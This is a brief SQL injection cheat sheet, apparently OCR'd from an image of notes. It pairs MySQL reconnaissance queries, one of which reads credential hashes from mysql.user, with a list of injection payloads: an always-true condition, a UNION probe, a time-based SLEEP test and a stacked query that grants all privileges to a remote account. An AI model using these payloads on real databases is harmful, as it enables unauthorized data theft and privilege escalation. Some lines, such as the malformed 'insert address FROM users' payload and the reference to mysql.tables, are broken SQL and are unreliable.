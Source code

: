 ## SQL Injection Basics
```sql
-- Retrieve information about all the tables in a database. The information_schema is a system database that contains metadata about the database objects, such as tables, columns, and indexes.
SELECT * FROM information_schema.tables

-- Test sleeping
SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a') 

-- Incorporate unions to access more data
UNION

-- Return the columns user host auth from the database table: mysql.user. It is the user table of the mysql database
select user,host,authentication_string from mysql.user;
```

## Ideas for potential attacks
test' or 1=1;

test' union select null from mysql.tables;-- 

test' OR IF(1=1, SLEEP(5), 0);-- 

test' or 1=1;  grant all on user.* to 'test'@'%'; -- 

test' or if(1=1,(insert address FROM users),0); -- 